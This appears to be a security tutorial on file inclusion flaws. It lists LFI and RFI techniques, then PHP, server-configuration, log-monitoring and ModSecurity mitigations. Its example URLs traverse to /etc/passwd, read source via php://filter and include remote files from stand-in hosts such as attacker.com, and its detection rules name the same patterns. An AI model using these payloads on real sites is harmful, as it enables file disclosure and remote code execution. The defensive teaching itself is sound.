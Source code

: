 # File inclusion

File inclusion is a web vulnerability allowing attackers to include files on a server through a web application, potentially leading to unauthorized access, data exposure, or code execution.

## METHODS TO PEFORM FILE INCLUSION

## 1.Advanced Techniques for LFI
- ### Directory Traversal

Attackers can use directory traversal sequences (e.g., ../) to navigate the file system and include files outside the intended directory.
Example:
```text
http://example.com/page.php?file=../../etc/passwd
```
- ### Null Byte Injection

In some cases, attackers can exploit null byte (%00) injection to terminate strings in file paths, allowing them to bypass file extension checks.
Example:
```text
http://example.com/page.php?file=somefile.php%00.jpg
```
- ### Log File Inclusion

Attackers can include log files that contain user input, potentially leading to code execution if the input is malicious.
Example:
```text
http://example.com/page.php?file=/var/log/apache2/access.log
```
- ### PHP Wrapper Exploitation

Attackers can use PHP wrappers (e.g., php://filter, php://input) to read files or execute code.
Example:
```text
http://example.com/page.php?file=php://filter/convert.base64-encode/resource=index.php
```
- ### File Inclusion via Session Variables

If the application uses session variables to determine file paths, attackers can manipulate these variables to include arbitrary files.
Example:
```text
// Set session variable to include a sensitive file
$_SESSION['file'] = '../../etc/passwd';
```
## 2.Advanced Techniques for RFI
- ### Remote File Inclusion

Attackers can include files from remote servers if the application does not validate the source of the file.
Example:
```text
http://example.com/page.php?file=http://malicious.com/malicious.php
```
- ### Using Local Files as a Proxy

Attackers can host a malicious file on their server and trick the application into including it by using a local file as a proxy.
Example:
```text
http://example.com/page.php?file=http://localhost/malicious.php
```
- ### Exploiting Misconfigured Servers

If a server is misconfigured to allow file uploads, attackers can upload a malicious file and then include it.
Example:
```text
// Upload a file named malicious.php
http://example.com/upload.php?file=malicious.php
```
- ### Using Protocols

Attackers can exploit different protocols (e.g., FTP, HTTP) to include files from remote locations.
Example:
```text
http://example.com/page.php?file=ftp://attacker.com/malicious.txt
```
- ### DNS Rebinding

Attackers can use DNS rebinding to trick the application into including files from a malicious server that appears to be a trusted domain.
Example:

An attacker sets up a domain that resolves to their server and then uses it in the RFI payload.

## MITIGATION FOR FILE INCLUSION

### 1️⃣ Use a Whitelist for Allowed Files
✅ Restrict file inclusion to specific files only.

🔹 Example (PHP) - Safe Whitelisting:

```text
$allowed_files = ['header.php', 'footer.php', 'sidebar.php'];
$file = $_GET['page']; // User-controlled input

if (in_array($file, $allowed_files)) {
    include $file;
} else {
    die("Access Denied");
```
✅ Why? Prevents attackers from including arbitrary files like /etc/passwd or ../../../../../etc/passwd.

### 2️⃣ Avoid Direct User Input in File Paths
❌ Bad Example (Vulnerable to LFI & RFI)
```text
include $_GET['page']; // Allows attackers to specify any file
```
✅ Secure Alternative (Using a Fixed Path)
```text
$file = basename($_GET['page']); // Removes directory traversal attempts
$path = "includes/" . $file . ".php"; // Ensures file exists in a secure folder

if (file_exists($path)) {
    include $path;
} else {
    die("Invalid file!");
}
```
✅ Why? Ensures only pre-defined files in the includes/ directory are allowed.

### 3️⃣ Disable allow_url_include in PHP (Prevents RFI)
If using PHP, disable remote file inclusion by setting this in php.ini:
```text
Edit
allow_url_include = Off
allow_url_fopen = Off
```
✅ Why? Prevents remote files from being included (e.g., http://attacker.com/shell.php).

### 4️⃣ Implement Proper Input Validation & Sanitization
✅ Remove dangerous characters to prevent directory traversal (../, %00, \, /, :).

🔹 Example (PHP) - Secure Input Handling
```text
$file = $_GET['page'];
$file = preg_replace('/[^a-zA-Z0-9_\-]/', '', $file); // Allow only alphanumeric, underscores, and hyphens
$path = "includes/" . $file . ".php";

if (file_exists($path)) {
    include $path;
} else {
    die("Invalid Request");
}
```
✅ Why? Removes special characters used in directory traversal attacks.

### 5️⃣ Restrict File Permissions & Disable Execution
✅ Prevent execution of uploaded files in directories like /uploads/.

🔹 For Apache (Prevent PHP Execution in Uploads Directory)
Add this to .htaccess:
```text
<Directory "/var/www/html/uploads">
    php_flag engine off
</Directory>
```
✅ Why? Prevents attackers from executing malicious PHP files in /uploads/.

🔹 For Nginx (Restrict PHP Execution in Uploads)
```text
location /uploads {
    location ~* \.php$ {
        deny all;
    }
}
```
✅ Why? Blocks execution of .php files in the /uploads directory.

### 6️⃣ Use Secure File Handling Functions
Instead of using include, use secure file handling functions like file_get_contents() with strict validation.

🔹 Example (PHP) - Using file_get_contents Securely
```text
$allowed_files = ['about.txt', 'contact.txt'];
$file = $_GET['file'];

if (in_array($file, $allowed_files)) {
    echo file_get_contents("safe_directory/" . $file);
} else {
    die("Invalid file request");
}
```
✅ Why? Prevents directory traversal and limits file access.

### 7️⃣ Monitor Logs & Set Alerts
✅ Monitor logs for LFI & RFI attack attempts (e.g., ../../, %00, http://).

🔹 Example (Linux - Monitor Access Logs for LFI Patterns)
```text
grep -E '(\.\./|%00|http://)' /var/log/apache2/access.log
```
✅ Why? Helps in detecting attacks in real-time and setting alerts.

### 8️⃣ Web Application Firewall (WAF) & ModSecurity Rules
✅ Deploy WAF rules to block LFI & RFI patterns.

🔹 Example (ModSecurity Rules - Block LFI & RFI Patterns)
```text
SecRule REQUEST_URI "@rx (\.\./|%00|/etc/passwd)" "id:1234,deny,status:403,msg:'Possible LFI Attack'"
SecRule ARGS "@rx (https?://)" "id:1235,deny,status:403,msg:'Possible RFI Attack'"
```
✅ Why? Blocks common LFI & RFI attack patterns automatically.



